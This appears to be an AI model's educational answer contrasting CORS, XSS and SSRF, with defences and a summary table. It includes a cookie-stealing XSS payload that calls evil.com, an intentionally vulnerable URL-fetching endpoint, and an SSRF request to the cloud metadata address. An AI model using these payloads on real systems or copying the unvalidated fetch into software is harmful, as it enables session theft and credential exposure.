 Great question — **CORS**, **XSS**, and **SSRF** are all security-related concepts in web applications, but they solve or exploit **different problems** in the system. Here's a clear, side-by-side explanation:

---

## 🔄 1. **CORS (Cross-Origin Resource Sharing)**

### ❓ What is it?

A **browser security feature** that controls how web pages from one origin (domain) can **make requests to a different origin**.

### 📌 Purpose:

Prevent **malicious websites** from calling **your APIs** via JavaScript unless you've allowed them.

### ✅ Example:

A frontend app on `https://example.com` tries to fetch from an API at `https://api.example.org`.

If `api.example.org` does **not** allow `example.com` via CORS headers, the **browser blocks the request**.

```http
Access-Control-Allow-Origin: https://example.com
```

### 🛡️ Protection Against:

* **Untrusted cross-origin requests from browsers**
* Enforced **only by browsers**, not by servers or tools like `curl`

---

## 🧨 2. **XSS (Cross-Site Scripting)**

### ❓ What is it?

An attack where malicious JavaScript is **injected into a trusted web page** — often via user input that is displayed **without proper escaping or sanitization**.

### 🧪 Goal:

Run JavaScript in another user’s browser, **stealing cookies, tokens**, or hijacking sessions.

### 🔥 Example:

```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

If your app renders user comments like this without escaping, you’re vulnerable.

### 🛡️ Protection:

* **Escape/sanitize all user input**
* Use **Content Security Policy (CSP)**
* Don't trust input in HTML, JS, or attributes

---

## 🌐 3. **SSRF (Server-Side Request Forgery)**

### ❓ What is it?

An attacker tricks the **server** into making a **backend HTTP request** to an internal service or resource.

### 🧪 Goal:

Access internal services (like metadata endpoints, private APIs), escalate privileges, or pivot within the network.

### 🔥 Example:

An app accepts a URL to fetch a preview image:

```python
@app.get("/preview")
def preview(url: str):
    return requests.get(url).content
```

Attacker passes:

```
/preview?url=http://169.254.169.254/latest/meta-data/  # AWS EC2 metadata
```

### 🛡️ Protection:

* Validate and whitelist outgoing URLs
* Don’t fetch arbitrary URLs on behalf of users
* Use network-level controls (firewalls, proxy rules)

---

## 🧠 Summary Table

| Feature                  | CORS                              | XSS                             | SSRF                              |
| ------------------------ | --------------------------------- | ------------------------------- | --------------------------------- |
| 🔍 **Type**              | Browser policy                    | Injection attack                | Server-side abuse                 |
| 🎯 **Target**            | Protects **frontend** APIs        | Attacks **end user browsers**   | Attacks **your server**           |
| 🧭 **Direction**         | Browser → API                     | User → Web App                  | Web App → Internal Systems        |
| 🛡️ **Defense**          | CORS headers (`Access-Control-*`) | Escape/sanitize output, CSP     | Whitelist URLs, deny internal IPs |
| ❌ **What it doesn’t do** | Doesn’t stop malicious JS         | Doesn’t block internal requests | Doesn’t involve browsers directly |

---

## 🔐 TL;DR:

* **CORS**: Prevents **other origins** from making **unauthorized requests** to your API via the browser.
* **XSS**: Prevents **JavaScript injection** into your website that targets your **users**.
* **SSRF**: Prevents your **server** from being used to call **internal resources** (often behind firewalls).

---

Let me know if you want visual diagrams or live examples of any of these!
